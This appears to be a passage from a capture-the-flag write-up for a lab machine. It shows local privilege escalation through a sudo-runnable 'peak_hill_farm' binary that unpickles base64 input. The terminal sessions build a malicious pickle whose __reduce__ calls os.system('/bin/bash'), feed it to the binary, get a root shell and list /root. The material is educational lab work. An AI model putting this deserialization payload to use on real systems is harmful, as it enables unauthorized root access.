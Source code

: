 <br>
<br>

```bash
dill@ubuntu-xenial:/opt/peak_hill_farm$ echo -n 'pickles' | base64
cGlja2xlcw==
dill@ubuntu-xenial:/opt/peak_hill_farm$ sudo ./peak_hill_farm
Peak Hill Farm 1.0 - Grow something on the Peak Hill Farm!

to grow: cGlja2xlcw==
this not grow did not grow on the Peak Hill Farm! :(
```

<img width="1295" height="304" alt="image" src="https://github.com/user-attachments/assets/47c2cf38-18fd-4a9a-adb4-c15e13d1e99f" />

<br>
<br>

```bash
dill@ubuntu-xenial:/opt/peak_hill_farm$ python3
...
[GCC 5.4.0 20160609] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import os
>>> import pickle
>>> import base64
>>> class evil_object(object):
...     def __reduce__(self):
...         return (os.system, ('/bin/bash',))
... 
>>> x = evil_object()
>>> aux = pickle.dumps(x)             
>>> base64.b64encode(aux)
b'gANjcG9zaXgKc3lzdGVtCnEAWAkAAAAvYmluL2Jhc2hxAYVxAlJxAy4='
>>> 
```

<br>
<br>

```bash
dill@ubuntu-xenial:/opt/peak_hill_farm$ sudo ./peak_hill_farm
Peak Hill Farm 1.0 - Grow something on the Peak Hill Farm!

to grow: gANjcG9zaXgKc3lzdGVtCnEAWAkAAAAvYmluL2Jhc2hxAYVxAlJxAy4=
```


```bash
root@ubuntu-xenial:/opt/peak_hill_farm# ls -lah /root
total 28K
drwx------  4 root root 4.0K May 18  2020 .
drwxr-xr-x 25 root root 4.0K Jul 29 20:03 ..
-rw-r--r--  1 root root 3.1K Oct 22  2015 .bashrc
drwxr-xr-x  2 root root 4.0K May 18  2020 .nano
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-r--r-----  1 root root   33 May 15  2020 \u2000root.txt\u2000
drwx------  2 root root 4.0K May 15  2020 .ssh
```
